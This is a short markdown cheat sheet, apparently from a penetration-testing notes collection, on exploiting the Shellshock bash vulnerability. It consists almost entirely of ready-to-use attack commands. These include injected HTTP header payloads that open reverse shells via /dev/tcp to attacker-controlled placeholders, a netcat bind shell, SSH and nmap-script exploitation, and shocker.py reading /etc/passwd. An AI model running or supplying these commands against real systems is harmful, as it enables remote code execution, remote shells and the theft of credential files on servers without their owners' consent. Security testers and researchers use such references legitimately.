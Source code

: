 ## Shellshock

### manual exploitation

- echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc [victim_ip] 80

- curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" [victim_ip]/cgi-bin/status

- curl http://[victim_ip]/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "

- curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/[your_ip]/[your_port] 0>&1' http://[victim_ip]/cgi-bin/test.sh

------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Shellshock exploitaion via SSH
```
ssh username@$[victim_ip] '() { :;}; /bin/bash'
```
### Shellshock exploitaion with nmap script
```
nmap --script -p [victim_port] http-shellshock --script-args uri=[/vuln/path] cmd=[yours_command] [victim_ip]
```
### smb
```
#TODO
```
------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Tools
***shocker***: https://github.com/nccgroup/shocker

shocker sample:
``` 
python shocker.py -H [victim_ip]  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose;  ./shocker.py -H [victim_ip]  --command "/bin/cat /etc/passwd" -c /cgi-bin/admin.cgi --verbose
```
